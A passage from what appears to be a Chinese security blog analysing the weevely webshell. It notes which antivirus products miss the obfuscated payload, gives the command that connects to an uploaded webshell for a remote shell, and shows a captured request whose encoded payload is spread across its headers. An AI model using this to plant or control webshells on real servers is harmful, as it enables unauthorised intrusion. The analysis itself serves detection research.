 该payload使用了可变函数的隐藏技巧，没有明显的特征，难以检测。

通过安全工具进行检测，安全狗、360杀毒未检测出问题，D盾报了4级的“变量函数”的提示，使用“360在线网站安全检测”能够识别。

将木马上传到服务器后，通过weevely连接服务器上的木马

    python weevely.py http://test.com/wee.php 123

得到一个远程shell，执行**dir**命令，成功得到目录信息

![weevely连接webshell](/images/weevely_1.JPG)

在命令执行过程中抓包，可以看到**dir**命令对应的http报文内容如下：

    GET /test/wee1.php HTTP/1.1
    Accept-Encoding: identity
    Accept-Language: ro-RO,ur;q=0.5,uk;q=0.7,uz;q=0.8,ur;q=0.9
    Host: 192.168.14.156
    Accept: application/xhtml+xml,text/html;0.9,*/*
    User-Agent: Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.2) Gecko/20100305 Gentoo Firefox/3.5.7
    Connection: close
    Referer: http://www.google.iq/url?sa=t&rct=j&q=168.14.156&source=web&cd=102&ved=cbfSqx5rS&url=168&ei=rwGuBiR4PpSxYZvXscei-s&usg=cbsbex0cMrWNQBqcHBwqr-xmNRhhAtExCj&sig2=K4MzCQTG3a0bczV1WDgjWx

真实payload被经过多重编码后分散在报文中的各个部分，在没有分析weevely工具的情况下，基本不可能从报文中找到有价值的内容

---

## 3 weevely webshell控制通道原理

本文的分析以最新版的weevely为准，源码地址：

> https://github.com/epinna/weevely3

weevely使用了python中的cmd模块实现交互会话，交互会话中的命令有2部分：

1. modules目录中包含了一部分命令的实现，例如weevely3/modules/file/目录实现了**cd**、**cp**等命令
2. 对于modules中没有定义的命令，weevely会使用system函数直接执行用户输入命令
